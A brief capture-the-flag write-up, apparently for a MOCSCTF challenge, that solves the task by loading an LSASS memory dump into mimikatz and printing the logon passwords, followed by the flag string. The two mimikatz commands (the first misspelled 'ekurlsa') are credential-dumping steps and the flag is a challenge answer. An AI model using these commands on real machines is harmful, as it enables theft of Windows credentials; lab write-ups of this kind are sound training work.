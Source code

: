 # writeup


1. download mimikatz extract the password from the lsass dump  
ekurlsa::minidump lsass.dmp  
sekurlsa::logonPasswords full  
  
MOCSCTF{wwwwwWDigest_is_d4n630ur5}